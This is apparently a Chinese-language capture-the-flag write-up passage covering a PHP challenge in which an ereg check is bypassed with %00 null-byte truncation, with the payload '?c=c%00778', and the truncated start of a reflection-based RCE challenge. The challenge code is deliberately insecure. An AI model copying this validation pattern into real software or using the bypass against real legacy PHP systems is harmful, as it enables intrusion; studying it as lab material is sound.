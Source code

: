 ## Web108：ereg函数%00截断绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 23:53:55

*/


highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```

strrev是字符反转

intval将字符转换成int数字

ereg是废弃的正则匹配函数，可以通过%00截断绕过

payload

```
?c=c%00778
```

## Web109：反射构造rce

题目

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-29 22:02:34

*/


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

```